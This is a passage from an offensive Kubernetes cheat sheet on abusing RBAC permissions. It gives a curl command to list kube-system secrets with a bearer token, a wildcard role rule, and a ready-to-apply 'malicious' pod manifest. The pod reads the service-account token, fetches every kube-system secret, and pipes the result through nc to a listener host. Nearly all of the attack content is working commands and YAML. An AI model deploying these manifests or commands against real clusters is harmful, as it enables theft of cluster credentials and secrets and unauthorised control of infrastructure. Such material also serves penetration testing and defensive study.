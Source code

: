 While there is no official way to check for privileged mode from _within_ a container, checking if `/dev/kmsg` exists will usually suffice.

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
    - name: alpine
      image: alpine
      command: ["/bin/sh"]
      args:
        [
          "-c",
          'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
        ]
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

Then `kubectl apply -f malicious-pod.yaml`
